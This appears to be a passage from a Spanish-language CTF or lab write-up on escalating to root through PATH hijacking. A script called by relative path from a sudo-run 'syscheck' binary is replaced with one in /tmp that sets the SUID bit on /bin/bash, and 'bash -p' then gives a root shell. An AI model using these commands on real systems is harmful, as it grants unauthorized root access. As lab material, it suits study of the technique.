 ![[Pasted image 20240601114634.png]]

veo que está ejecutando un script en **Bash** con su ruta relativa, por lo que podemos llevar a cabo un **Path Hijacking**, para crearnos un .**sh** con el mismo nombre, pero para hacer lo que nosotros queramos.

1. Vamos a un directorio con permiso de escritura y creamos el archivo.
```bash
cd /tmp
nano initdb.sh
``` 

dentro tendrá lo siguiente para darle permiso **SUID** a la bash, y poder ejecutarla como ROOT.
```bash
#/bin/bash
chmod u+s /bin/bash
```

2. Cambiamos la variable de entorno **PATH** para qué primero lea de nuestro initdb.sh, en vez del real.
```bash
export PATH=/tmp/:$PATH
```

3. Volvemos a ejecutar el "**syscheck**" como Root
```bash
sudo /usr/bin/syscheck
```

4. Ejecutamos la bash como Root.
```bash
bash -p
``` 

![[Pasted image 20240601115219.png]]